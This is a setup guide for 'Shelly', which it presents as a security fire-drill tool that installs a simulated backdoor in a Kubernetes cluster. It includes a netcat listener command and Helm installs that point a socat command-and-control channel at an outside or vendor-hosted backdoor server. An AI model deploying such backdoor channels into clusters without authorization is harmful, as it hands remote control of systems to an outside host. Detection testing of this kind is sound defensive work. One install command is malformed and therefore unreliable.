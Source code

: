 ===================================
Getting started with Shelly in your Cluster(Linux)
===================================

Araali Shelly is an open source tool that helps security teams safely test their detect and
response readiness (the fire drill for SIEM/SOAR/EDR/NDR/XDR investment) for backdoors. 
This is typical when supply chain vulnerabilities like remote code execution (RCE) are 
exploited and represents a doomsday scenario where an attacker has full remote control 
capabilities based on the backdoor.

Step 0: Setting up the Backdoor Server (Optional, if you choose to use Araali Backdoor, see next steps)
***********************************************************************************************************
Run a cloud VM where you can listen for incoming connections (you can use a small t2-micro). 
Note down the external IP address of this machine (will be used later on).
You can also dial out to Araali’s backdoor-as-a-service -nightly.aws.araalinetworks.com:443

Join our `Slack Channel <https://araali.slack.com/join/shared_invite/zt-o3yeo8us-GRa7qtz4p0kcIVIBaIxWbA#/shared-invite/email>` if you need any help

Install net cat and listen for incoming connections::

    sudo nc -nvlp 443

We suggest you run Shelly after `installing Araali <https://araali-networks-api.readthedocs.io/en/latest/gettingstarted.html>`. By doing so, Shelly is safely run in a no harm sandbox.


Step 1: Setup Shelly in your Cluster
************************************
 Setup Helm Repo::

    helm repo add araali-helm https://araalinetworks.github.io/araali-helm/

Create namespace::

    kubectl create ns araali-attack


**If you are using your own Backdoor**
    #Install Shelly on your cluster running Araali::

        helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=<araali-zone> --set araali.socat_c2c_endpoint=<ip-of-cloud-server>:443

    OR

    #Install Shelly on your cluster NOT running Araali::
        
        helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --set araali.socat_c2c_endpoint=<ip-of-cloud-server:443>
    

**If you are using Araali as a backdoor service**

    #Install Shelly on your cluster running Araali::
        
        helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=demo --set araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443
    
    OR

    #Install Shelly on your cluster NOT running Araali::

        helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443



Step 2: Check if Shelly got installed correctly
***********************************************
    Check if the pods are up and running::

        kubectl get po -A

If you are facing trouble installing Shelly, please refer to the
 `installation video <https://vimeo.com/696308067?embedded=true&source=vimeo_logo&owner=114861097>` by our staff.

**How to uninstall Shelly?**

Run the following command to uninstall Shelly from your cluster::
    
    helm uninstall attack -n araali-attack



    

















